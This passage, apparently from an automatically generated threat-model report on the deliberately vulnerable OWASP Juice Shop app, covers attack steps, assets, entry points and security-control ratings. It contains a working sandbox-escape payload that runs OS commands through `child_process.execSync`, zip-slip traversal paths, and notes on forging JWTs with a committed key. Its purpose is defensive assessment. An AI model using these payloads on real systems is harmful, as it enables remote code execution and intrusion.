1. An authenticated attacker (or one who has forged a JWT using the hardcoded RSA private key in `lib/insecurity.ts`) POSTs to `/b2b/v2/orders` with a crafted orderLinesData payload that chains prototype pollution to the Function constructor.
2. The `notevil` sandbox does not block access to `Object.prototype.constructor.constructor`, allowing a payload such as `({}).__proto__.constructor.constructor('return process')().mainModule.require('child_process').execSync('id')` to escape the evaluator and execute arbitrary OS commands in the Node\.js process context.
3. The `vm.runInContext` wrapper provides no additional protection because the escape occurs within the `notevil` evaluation step, before the vm boundary is relevant.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant Sandbox
    Note over API: b2b-api - routes/b2bOrder.ts:23
    Note over Sandbox: Eval / VM context
    Attacker->>API: Crafted HTTP request to the affected endpoint with JS payload escaping the sandbox
    API->>Sandbox: Pass attacker-controlled code to eval / vm.runInContext
    Sandbox->>Sandbox: Prototype-walk reaches the host realm - RCE
    API-->>Attacker: Command output / arbitrary side effects
    alt Current state — F-013
        Attacker->>API: Crafted request exploiting F-013 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-013 — Remove server-side evaluation of untrusted input
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-013](#m-013) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-013](#f-013) — Sandbox Escape — `routes/b2bOrder.ts:23` is exploitable at `routes/b2bOrder.ts:23` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-013](#m-013) (Remove server-side evaluation of untrusted input)
- Defence in depth: ❸ [M-054](#m-054) (Remove server-side evaluation of untrusted input)

### 3.10 Zip Slip Path Traversal — routes/fileUpload.ts:44

**Source:** 🔴 [F-014](#f-014) — `routes/fileUpload.ts:44`

Severity **Critical** ([CWE-22](https://cwe.mitre.org/data/definitions/22.html)). STRIDE: Elevation of Privilege. See [§8 F-014](#f-014) for the full register row.

**Attack Steps**

1. An attacker crafts a ZIP archive where one or more entries have path components that traverse outside `uploads/complaints/`, e.g., `…/…/ftp/legal.md` or `…/…/lib/insecurity.ts`.
2. The check on line 44 computes `absolutePath.includes(path.resolve('.'))` - because `path.resolve('.')` equals the application's working directory (e.g., `/juice-app`), and `path.resolve('uploads/complaints/…/…/ftp/legal.md')` equals `/juice-app/ftp/legal.md`, the `includes()` call returns `true` (the absolute path contains the working directory prefix as a substring), allowing the traversal.
3. The entry is piped to `fs.createWriteStream('uploads/complaints/' + fileName)` on line 45, which Node\.js resolves relative to CWD - writing to `/juice-app/ftp/legal.md`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: file-upload-service - routes/fileUpload.ts:44
    Attacker->>App: Crafted request exercising the weakness at routes/fileUpload.ts line 44
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-22
    alt Current state — F-014
        Attacker->>App: Crafted request exploiting F-014 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-014 — Constrain file paths to a safe base directory
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-014](#m-014) (Constrain file paths to a safe base directory) lands, 🔴 [F-014](#f-014) — Zip Slip Path Traversal — `routes/fileUpload.ts:44` is exploitable at `routes/fileUpload.ts:44` (Critical-severity, [CWE-22](https://cwe.mitre.org/data/definitions/22.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-014](#m-014) (Constrain file paths to a safe base directory)
- Defence in depth: ❸ [M-055](#m-055) (Constrain file paths to a safe base directory)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:20%"><col style="width:6%"><col style="width:12%"><col style="width:29%"><col style="width:33%"></colgroup>
<thead><tr><th>Asset</th><th>ID</th><th>Classification</th><th>Description</th><th>Linked Threats</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere">JWT RSA Private Key</td><td style="white-space:nowrap">A-001</td><td>Restricted</td><td>RSA-1024 private key hardcoded at <code>lib/insecurity.ts:23</code>, committed in plaintext to the public GitHub repository. Used to sign all <code>RS256</code> JWT tokens including admin sessions. Any internet user can read it and forge tokens offline — permanently compromised.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — JWT Algorithm Confusion (<code>lib/insecurity.ts:191</code>)<br/>🔴 <a href="#f-007">F-007</a> — Hardcoded RSA Private Key Enables Offline JWT Forgery for <code>/b2b/v2</code> Access (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Path Traversal (<code>routes/fileUpload.ts:44</code>)<br/>🔴 <a href="#f-016">F-016</a> — JWT decode used without signature verification (<code>lib/insecurity.ts:58</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User Credentials Database</td><td style="white-space:nowrap">A-002</td><td>Restricted</td><td>SQLite database storing user email addresses, <code>MD5</code>-hashed passwords, TOTP secrets, plaintext security question answers, and role assignments (customer/deluxe/accounting/admin). <code>MD5</code> hashing makes offline cracking trivial.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-009">F-009</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-017">F-017</a> — Stored Cross-Site Scripting (<code>about.component.ts:119</code>)<br/>🔴 <a href="#f-018">F-018</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-019">F-019</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-020">F-020</a> — Reflected Cross-Site Scripting (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-022">F-022</a> — DOM-Write of Raw User Data Export (<code>data-export.component.ts:71</code>)<br/>🟠 <a href="#f-029">F-029</a> — Weak Password Hashing (<code>models/user.ts:77</code>)<br/>🟠 <a href="#f-033">F-033</a> — Missing Rate Limiting on Login Endpoint (<code>server.ts:343</code>)<br/>🟠 <a href="#f-036">F-036</a> — Client-Side-Only Admin and Accounting Route Guards (<code>app.guard.ts:52</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Active JWT Session Tokens</td><td style="white-space:nowrap">A-006</td><td>Restricted</td><td><code>RS256</code>-signed JWTs stored in browser localStorage (XSS-accessible). 6-hour expiry. Forgeable offline with committed private key. In-memory token map has no revocation mechanism.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-007">F-007</a> — Hardcoded RSA Private Key Enables Offline JWT Forgery for <code>/b2b/v2</code> Access (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Path Traversal (<code>routes/fileUpload.ts:44</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Server Process</td><td style="white-space:nowrap">A-009</td><td>Restricted</td><td>Node\.js 20-24 process as UID 65532 in distroless Docker container. RCE via B2B <code>notevil</code> escape or userProfile <code>eval()</code> yields full in-process access to all data assets and filesystem.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Encryption Keys Directory</td><td style="white-space:nowrap">A-011</td><td>Restricted</td><td>encryptionkeys/ directory containing <code>jwt.pub</code> served publicly at <code>/encryptionkeys/jwt.pub</code>. Enables extraction of the RSA public key for algorithm-confusion attacks against <code>express-jwt@0.1.3</code>.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — JWT Algorithm Confusion (<code>lib/insecurity.ts:191</code>)<br/>🔴 <a href="#f-007">F-007</a> — Hardcoded RSA Private Key Enables Offline JWT Forgery for <code>/b2b/v2</code> Access (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Path Traversal (<code>routes/fileUpload.ts:44</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Cookie Session Secret</td><td style="white-space:nowrap">A-012</td><td>Restricted</td><td>Hardcoded cookie secret 'kekse' in <code>server.ts:289</code> used by cookieParser. Trivially guessable - enables cookie forgery for any mechanism relying on cookie-based session integrity.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Customer PII (names, addresses, payment cards)</td><td style="white-space:nowrap">A-003</td><td>Confidential</td><td>User profile data, physical delivery addresses, payment card details (Card model), and wallet balances stored in SQLite. Exposed via SQL injection, IDOR, or mass assignment vulnerabilities.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — Systemic IDOR Missing Ownership Filter (<code>routes/memory.ts:15</code>)<br/>🟠 <a href="#f-006">F-006</a> — Sensitive REST Route Without Auth Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-009">F-009</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-010">F-010</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🔴 <a href="#f-017">F-017</a> — Stored Cross-Site Scripting (<code>about.component.ts:119</code>)<br/>🔴 <a href="#f-018">F-018</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-019">F-019</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-020">F-020</a> — Reflected Cross-Site Scripting (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-021">F-021</a> — NoSQL Mass-Update Injection (<code>routes/trackOrder.ts:18</code>)<br/>🔴 <a href="#f-022">F-022</a> — DOM-Write of Raw User Data Export (<code>data-export.component.ts:71</code>)<br/>🟠 <a href="#f-037">F-037</a> — Unauthenticated Order Tracking IDOR (<code>track-result.component.ts:45</code>)<br/>🟠 <a href="#f-038">F-038</a> — Missing Ownership Check Allows Horizontal Privilege Escalation in Review Update (<code>routes/updateProductReviews.ts:16</code>)<br/>🟠 <a href="#f-048">F-048</a> — Data disclosure (<code>challenges.yml:1381</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">FTP Directory Sensitive Files</td><td style="white-space:nowrap">A-004</td><td>Confidential</td><td>ftp/ directory served unauthenticated via serve-index at <code>/ftp</code>. Contains <code>acquisitions.md</code> (M&amp;A data), <code>coupons_2013.md.bak</code>, <code>eastere.gg</code>, <code>premium.key</code>, and <code>jwt.pub</code>. No authentication required.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-007">F-007</a> — Hardcoded RSA Private Key Enables Offline JWT Forgery for <code>/b2b/v2</code> Access (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Path Traversal (<code>routes/fileUpload.ts:44</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Source Code</td><td style="white-space:nowrap">A-005</td><td>Internal</td><td>Full TypeScript source on public GitHub. Reveals all vulnerability locations, hardcoded RSA private key, challenge logic, and internal architecture. Any internet user has read access.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-007">F-007</a> — Hardcoded RSA Private Key Enables Offline JWT Forgery for <code>/b2b/v2</code> Access (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Path Traversal (<code>routes/fileUpload.ts:44</code>)<br/>🟠 <a href="#f-030">F-030</a> — Access Log Public Exposure (<code>server.ts:281</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Product Catalogue and Business Data</td><td style="white-space:nowrap">A-007</td><td>Internal</td><td>Product details, prices, and challenge metadata in SQLite. Mutable via missing authorization on PUT <code>/api/Products/:id</code> (commented-out isAuthorized middleware in <code>server.ts:369</code>).</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-003">F-003</a> — Missing Security Audit Logging (<code>routes/updateProductReviews.ts:17</code>)<br/>🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-009">F-009</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-017">F-017</a> — Stored Cross-Site Scripting (<code>about.component.ts:119</code>)<br/>🔴 <a href="#f-018">F-018</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-019">F-019</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-020">F-020</a> — Reflected Cross-Site Scripting (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-022">F-022</a> — DOM-Write of Raw User Data Export (<code>data-export.component.ts:71</code>)<br/>🟠 <a href="#f-038">F-038</a> — Missing Ownership Check Allows Horizontal Privilege Escalation in Review Update (<code>routes/updateProductReviews.ts:16</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User-Uploaded Files</td><td style="white-space:nowrap">A-008</td><td>Internal</td><td>Complaint documents and profile images in uploads/. Zip-slip can write to <code>ftp/legal.md</code>. SSRF in <code>profileImageUrlUpload.ts</code> can write arbitrary response content to public image path.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-006">F-006</a> — Sensitive REST Route Without Auth Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-012">F-012</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Path Traversal (<code>routes/fileUpload.ts:44</code>)<br/>🟠 <a href="#f-028">F-028</a> — Sensitive Files Publicly Browsable (<code>server.ts:277</code>)<br/>🟠 <a href="#f-039">F-039</a> — Stored XSS (<code>routes/profileImageUrlUpload.ts:28</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Challenge Progress and Score Data</td><td style="white-space:nowrap">A-010</td><td>Internal</td><td>Challenge completion state in SQLite. Anti-cheat logic in <code>lib/antiCheat.ts</code>. Manipulable via direct API calls that bypass challenge verification or via SQL injection.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-009">F-009</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-016">F-016</a> — JWT decode used without signature verification (<code>lib/insecurity.ts:58</code>)</td></tr>
</tbody>
</table>

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (56)

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:9%"><col style="width:30%"><col style="width:14%"><col style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/file-upload</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-011">F-011</a> — XML External Entity Injection (<code>routes/fileUpload.ts:83</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Path Traversal (<code>routes/fileUpload.ts:44</code>)<br/>🟠 <a href="#f-034">F-034</a> — YAML Bomb Parser Amplification (<code>routes/fileUpload.ts:117</code>)<br/>handler: <code>server.ts:309</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-010">F-010</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🔴 <a href="#f-012">F-012</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟠 <a href="#f-039">F-039</a> — Stored XSS (<code>routes/profileImageUrlUpload.ts:28</code>)<br/>handler: <code>server.ts:664</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/file</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-012">F-012</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟠 <a href="#f-039">F-039</a> — Stored XSS (<code>routes/profileImageUrlUpload.ts:28</code>)<br/>handler: <code>server.ts:310</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/url</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-012">F-012</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟠 <a href="#f-039">F-039</a> — Stored XSS (<code>routes/profileImageUrlUpload.ts:28</code>)<br/>handler: <code>server.ts:311</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/login</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🟠 <a href="#f-033">F-033</a> — Missing Rate Limiting on Login Endpoint (<code>server.ts:343</code>)<br/>handler: <code>server.ts:594</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-010">F-010</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🔴 <a href="#f-012">F-012</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟠 <a href="#f-039">F-039</a> — Stored XSS (<code>routes/profileImageUrlUpload.ts:28</code>)<br/>handler: <code>server.ts:663</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/search</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-009">F-009</a> — SQL Injection (<code>routes/search.ts:23</code>)<br/>handler: <code>server.ts:600</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks</code></td><td>🟠 High</td><td>🔴 <a href="#f-017">F-017</a> — Stored Cross-Site Scripting (<code>about.component.ts:119</code>)<br/>handler: <code>server.ts:401</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/data-export</code></td><td>🟠 High</td><td>🔴 <a href="#f-022">F-022</a> — DOM-Write of Raw User Data Export (<code>data-export.component.ts:71</code>)<br/>handler: <code>server.ts:618</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/reset-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-033">F-033</a> — Missing Rate Limiting on Login Endpoint (<code>server.ts:343</code>)<br/>handler: <code>server.ts:596</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/track-order/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-021">F-021</a> — NoSQL Mass-Update Injection (<code>routes/trackOrder.ts:18</code>)<br/>🟠 <a href="#f-032">F-032</a> — Event-Loop Blocking (<code>routes/trackOrder.ts:18</code>)<br/>handler: <code>server.ts:615</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​this/​page/​is/​hidden/​behind/​an/​incredibly/​high/​paywall/​that/​could/​only/​be/​unlocked/​by/​sending/​1btc/​to/​us</code></td><td>🟠 High</td><td>🟠 <a href="#f-004">F-004</a> — SPA Without Backend-for-Frontend Token Storage (<code>login.component.ts:101</code>)<br/>🔴 <a href="#f-018">F-018</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>handler: <code>server.ts:649</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/</code></td><td>-</td><td>handler: <code>routes/dataErasure.ts:54</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/metrics</code></td><td>-</td><td>Management surface; handler: <code>server.ts:718</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​configuration</code></td><td>-</td><td>Management surface; handler: <code>server.ts:605</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​version</code></td><td>-</td><td>Management surface; handler: <code>server.ts:604</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​findIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:610</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​fixIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:611</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:612</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/memories</code></td><td>-</td><td>handler: <code>server.ts:312</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​order-​history/​:​id/​delivery-​status</code></td><td>-</td><td>handler: <code>server.ts:623</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/wallet/balance</code></td><td>-</td><td>handler: <code>server.ts:625</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/​rest/​web3/​walletExploitAddress</code></td><td>-</td><td>handler: <code>server.ts:642</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/walletNFTVerify</code></td><td>-</td><td>handler: <code>server.ts:641</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/fixes</code></td><td>-</td><td>handler: <code>server.ts:670</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/verdict</code></td><td>-</td><td>handler: <code>server.ts:668</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
</tbody>
</table>

_30 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (56 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (53)

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:9%"><col style="width:30%"><col style="width:14%"><col style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/b2b/v2/orders</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-007">F-007</a> — Hardcoded RSA Private Key Enables Offline JWT Forgery for <code>/b2b/v2</code> Access (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-013">F-013</a> — Sandbox Escape (<code>routes/b2bOrder.ts:23</code>)<br/>🟠 <a href="#f-031">F-031</a> — Event-Loop Saturation (<code>routes/b2bOrder.ts:23</code>)<br/>handler: <code>server.ts:645</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-017">F-017</a> — Stored Cross-Site Scripting (<code>about.component.ts:119</code>)<br/>handler: <code>server.ts:432</code></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-019">F-019</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>handler: <code>server.ts:370</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-019">F-019</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>handler: <code>server.ts:369</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Products</code></td><td>🟠 High</td><td>🔴 <a href="#f-019">F-019</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>handler: <code>server.ts:368</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:449</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:450</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/BasketItems/:id</code></td><td>-</td><td>handler: <code>server.ts:425</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:439</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:440</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:441</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Quantitys/:id</code></td><td>-</td><td>handler: <code>server.ts:428</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:387</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:388</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:389</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/disable</code></td><td>-</td><td>handler: <code>server.ts:470</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/setup</code></td><td>-</td><td>handler: <code>server.ts:464</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/status</code></td><td>-</td><td>handler: <code>server.ts:462</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/verify</code></td><td>-</td><td>handler: <code>server.ts:457</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id</code></td><td>-</td><td>handler: <code>server.ts:601</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id/checkout</code></td><td>-</td><td>handler: <code>server.ts:602</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​basket/​:​id/​coupon/​:​coupon</code></td><td>-</td><td>handler: <code>server.ts:603</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:632</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:633</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
</tbody>
</table>

_29 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (53 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 7. Security Architecture

This section evaluates the structural security controls of Juice Shop across 13 control categories. Each category assesses the implemented controls, identifies gaps, and rates overall effectiveness. Individual code-level threats are detailed in Section 8.

### 7.1 Security Control Overview

| Control category | Verdict | Main reason |
|----------------------|----------|------------------------------------|
| 7.2 Identity and Authentication | 🔴 Unsafe | SQL injection login bypass; hardcoded RSA<br/>key; `MD5` passwords; `alg:none` vulnerable JWT<br/>libs |
| 7.3 Session and Token Controls | 🔴 Unsafe | JWT in localStorage; no revocation;<br/>hardcoded signing key; both JWT libs<br/>pre-secure-version |
| 7.4 Authorization Controls | 🟠 Weak | `isAuthorized()` selective; RBAC forgeable; no<br/>ownership checks on most IDOR-sensitive<br/>routes |
| 7.5 Query Construction and Data Access | 🔴 Unsafe | Raw SQL concat in login+search; MarsDB<br/>injection; Sequelize parameterization<br/>bypassed |
| 7.6 Input Boundary Validation | 🔴 Unsafe | `eval()` RCE in 3 routes; XXE enabled; SSRF<br/>unrestricted; zip-slip in file upload |
| 7.7 Output Encoding and Rendering | 🟠 Weak | bypassSecurityTrustHtml in 4 Angular<br/>components; no server-side encoding at all<br/>output points |
| 7.8 Browser and Cross-Origin Controls | 🔴 Unsafe | Wildcard CORS; no CSP; xssFilter commented<br/>out |
| 7.9 Cryptography Secrets and Data Protection | 🔴 Unsafe | `MD5` passwords; RSA key in source; hardcoded<br/>cookie secret |
